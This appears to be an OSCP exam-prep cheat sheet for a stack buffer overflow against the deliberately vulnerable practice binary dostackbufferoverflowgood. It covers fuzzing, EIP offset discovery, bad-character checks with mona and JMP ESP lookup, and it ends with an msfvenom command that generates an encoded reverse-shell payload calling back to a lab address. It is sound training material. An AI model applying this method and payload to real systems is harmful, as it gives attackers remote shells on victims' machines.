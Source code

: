 Repo: https://github.com/V1n1v131r4/OSCP-Buffer-Overflow
Additional Tutorial: https://github.com/justinsteven/dostackbufferoverflowgood/blob/master/dostackbufferoverflowgood_tutorial.pdf

# OSCP Buffer Overflow Cheat Sheet

In this cheat sheet we will use `dostackbufferoverflowgod` as a vulnerable application in our exploration process (more info here: https://github.com/justinsteven/dostackbufferoverflowgood).

The binary can be downloaded here: https://github.com/justinsteven/dostackbufferoverflowgood/blob/master/dostackbufferoverflowgood.exe

Below are the download links for all the tools needed for the study:

- Windows 7 Evaluation: https://gist.github.com/anonymous/c644cac9d77e2793742c13cf10d26cb8 (you can run on Windows 10 too)
- Immunity Debugger: https://www.immunityinc.com/products/debugger/
- Mona.py: https://github.com/corelan/mona

All installation processes are described in the links above.


## Fuzzing

We will run the `connect.py` script to verify the application's response.

After this step, we will run the `fuzzing.py` script to identify the point that the application will crash. But before that, on your Windows, attach the application to the Immunity Debugger.

Change the amount of "A" in the script until the application broken.


## Offset

After finding the crash point of the application, we will identify the offset to the EIP address. For this we will generate a string with the pattern_create, from the MSF suite

```
msf-pattern_create -l 1024
```

Copy the EIP address into the Immunity Debugger and use the pattern_offset to identify this address

```
msf-pattern_offset -q 39654138
```

Now we can run `poc.py` and verify that our EIP has been overwritten with the character "B" (42 in hexadecimal)


## Badchars

To identify badchars we will use mona with the option `!mona bytearray`.

Insert the mona output in the `badchars.py` script and run against the application to identify the badchars.


There are many ways to carry out the badchar identification process (even mona has modules for that), but the most accurate way is visually. Follow the ASCII string in the Immunity Debugger and see what points this string crashed or skipped over.


## JMP ESP

After knowing the badchars of the application, we will identify the JMP ESP that will be responsible for changing the natural flow of the application and making it run the shellcode that we will insert into the stack.

The OPCODE for JMP ESP is `\xff\xe4` (in assembly). Using mona we will locate which register in the application that points to this OPCODE and so we can change the flow of the application to run our shellcode, rewriting the stack from its base (EBP).

Run `!mona modules` and identify the unprotected modules.

Run `!mona find -s "\xff\xe4"` to identify which of these pointers have the OPCODE for JMP ESP

Run `!mona jmp -r esp -cpb "\x00\x0a"` to identify which pointers do not have the badchars found.

By this point you may have already found the correct JMP ESP address. However, if you want to check, run `!mona find -s "\xff\xe4" -m dostackbufferoverflowgood.exe` directly on the identified vulnerable module.

At this point you will have the base address of the stack or return address (EBP). We need to convert this address to little-endian format to use it in our code. Just invert the bytes to perform this conversion:

```
0x080416BF  <->  "\xBF\x16\x04\x08"
```
 
 
 ## Exploit time
 
 We can now generate our shellcode excluding the badchars found:
 
 ```
 msfvenom -p windows/shell_reverse_tcp LHOST=192.168.56.103 LPORT=443 EXITFUNC=thread  -f c –e x86/shikata_ga_nai -b "\x00\x0a"
 ```
 
 The `EXITFUNC=thread` option prevents the shellcode from crashing the application when executing our shellcode.
 
 Now just insert the msfvenom output in our `exploit.py` and run it against our application to gain access to the system exploiting the Buffer Overflow

